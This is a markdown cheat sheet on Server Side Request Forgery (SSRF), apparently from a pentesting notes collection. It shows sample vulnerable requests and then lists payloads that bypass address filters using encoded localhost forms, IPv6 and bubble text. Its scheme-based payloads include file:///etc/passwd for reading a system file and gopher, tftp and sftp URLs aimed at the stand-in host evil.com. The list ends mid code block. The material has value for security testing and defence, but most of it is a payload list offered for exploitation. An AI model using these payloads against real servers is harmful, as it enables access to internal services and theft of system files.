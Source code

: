 # Server Side Request Forgery (SSRF)

## Introduction
Server Side Request Forgery is a web application vulnerability that allows attackers to make outgoing requests originating from the vulnerable server

## Where to find
Usually it can be found in the request that contain request to another url, for example like this
```
POST /api/check/products HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Origin: https://example.com
Referer: https://example.com
urlApi=http://192.168.1.1%2fapi%2f&id=1
```

or

```
GET /image?url=http://192.168.1.1/
Host: example.com
```

## How to exploit
1. Basic payload
```
http://127.0.0.1:1337
http://localhost:1337
```

2. Hex encoding
```
http://127.0.0.1 -> http://0x7f.0x0.0x0.0x1
```

3. Octal encoding
```
http://127.0.0.1 -> http://0177.0.0.01
```

4. Dword encoding
```
http://127.0.0.1 -> http://2130706433
```

5. Mixed encoding
```
http://127.0.0.1 -> http://0177.0.0.0x1
```

6. Using URL encoding
```
http://localhost -> http://%6c%6f%63%61%6c%68%6f%73%74
```

7. Using IPv6
```
http://0000::1:1337/
http://[::]:1337/
```

8. Using bubble text
```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ
Use this https://capitalizemytitle.com/bubble-text-generator/
```

## How to exploit (URI Scheme)
1. File scheme
```
file:///etc/passwd
```

2. Dict scheme
```
dict://127.0.0.1:1337/
```

3. FTP scheme
```
ftp://127.0.0.1/
```

4. TFTP scheme
```
tftp://evil.com:1337/test
```

5. SFTP scheme
```
sftp://evil.com:1337/test
```

6. LDAP scheme
```
ldap://127.0.0.1:1337/
```

7. Gopher scheme
```
gopher://evil.com/_Test%0ASSRF
